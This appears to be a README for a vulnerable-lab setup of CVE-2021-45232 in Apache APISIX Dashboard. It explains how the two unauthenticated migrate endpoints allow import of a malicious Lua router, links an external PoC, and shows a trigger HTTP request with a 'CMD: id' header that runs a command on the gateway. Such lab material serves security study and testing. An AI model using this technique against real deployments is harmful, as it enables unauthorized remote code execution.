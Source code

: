 # Apache APISIX Dashboard Unauthenticated Access Leads to RCE (CVE-2021-45232)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX is a dynamic, real-time, high-performance API gateway, and Apache APISIX Dashboard is a easy to use frontend interface that is used to manage the Apache APISIX.

In Apache APISIX Dashboard before 2.10.1, the Manager API uses two frameworks and introduces framework `droplet` on the basis of framework `gin`, all APIs and authentication middleware are developed based on framework `droplet`. But there are 2 of these APIs `/apisix/admin/migrate/export` and `/apisix/admin/migrate/import` directly use the interface of framework `gin` which are able to bypass the authentication.

By using these 2 unauthenticated API endpoints, attackers can export and import arbitrary Apache APISIX configuration including routers, services, scripts etc, that leads to reqeust unexpected URL (SSRF) or execute arbitrary LUA scripts (RCE).

References:

- https://apisix.apache.org/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## Vulnerable environment

Execute following command to start a vulnerable Apache APISIX Dashboard 2.9:

```
docker-compose up -d
```

Then you can access `http://your-ip:9000/` to see the login page for Apache APISIX Dashboard.

## Exploit

`/apisix/admin/migrate/export` and `/apisix/admin/migrate/import` are 2 unauthenticated API provided by Apache APISIX Dashboard, that are used to export and import configuration for Apache APISIX. So we can simplely import a craft configuration with evil router that contains user provided LUA script:

![](1.png)

Noted that the last 4 bytes are CRC checksum of this file, so it's better to use a automatic POC to build and send the request, for example [this POC](https://github.com/wuppp/cve-2021-45232-exp).

After adding the evil router, you should send the request to Apache APISIX (difference from Apache APISIX Dashboard) to trigger the LUA script.

The Apache APISIX is listening on port 9080 in this environment:

```
GET /okw1Rh HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0


```

![](2.png)

As you can see, the command in `CMD` header is executed by Apache APISIX.
